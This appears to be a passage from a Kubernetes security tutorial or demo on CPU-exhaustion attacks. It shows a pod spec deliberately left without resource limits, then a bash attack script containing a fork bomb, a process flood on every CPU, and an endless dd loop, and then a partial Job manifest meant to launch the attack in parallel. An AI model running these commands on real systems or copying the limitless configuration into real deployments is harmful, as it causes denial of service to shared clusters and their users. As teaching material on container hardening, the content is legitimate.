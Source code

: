 ```yaml
  template:
    metadata:
      labels:
        app: cpu-vulnerable
    spec:
      containers:
      - name: app
        image: ubuntu:20.04
        command: ["/bin/bash"]
        args: ["-c", "while true; do echo 'Normal app behavior'; sleep 10; done"]
        # ❌ VULNERABILITY: No resource limits
        # ❌ VULNERABILITY: No resource requests
        # ❌ VULNERABILITY: Can consume unlimited CPU
```

#### CPU Exhaustion Attack Payload
```bash
# Inside compromised container - CPU fork bomb attack
cat << 'EOF' > /tmp/cpu-bomb.sh
#!/bin/bash
# CPU Exhaustion Attack - generates maximum CPU load

echo "Launching CPU exhaustion attack..."

# Method 1: Classic fork bomb
:(){ :|:& };:

# Method 2: Multiple CPU intensive processes
for i in {1..$(nproc)}; do
    yes > /dev/null &
done

# Method 3: Stress testing tool simulation
while true; do
    dd if=/dev/zero of=/dev/null &
done

wait
EOF

chmod +x /tmp/cpu-bomb.sh
/tmp/cpu-bomb.sh
```

#### Kubernetes Deployment for CPU Attack
```yaml
# Simulated compromised application launching CPU attack
apiVersion: batch/v1
kind: Job
metadata:
  name: cpu-attack-job
  namespace: resource-attack-demo
spec:
  parallelism: 5  # Launch on multiple nodes
  template:
    spec:
      restartPolicy: Never
      containers:
      - name: cpu-bomb
        image: ubuntu:20.04
        command: ["/bin/bash"]
        args:
        - -c
        - |
```